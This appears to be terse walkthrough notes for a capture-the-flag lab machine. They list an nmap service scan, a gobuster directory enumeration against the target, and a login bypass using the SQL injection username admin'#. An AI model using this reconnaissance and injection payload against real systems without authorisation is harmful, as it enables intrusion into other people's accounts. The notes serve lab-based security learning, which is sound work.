


# 1.Port Scan
ip=10.129.195.240
nmap -sC -sV $ip   

# 2. Gobuster
 `gobuster dir -u http://$ip/ -w /home/kali/Three/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` 

# 3.Login
user: **admin'#**
pass: *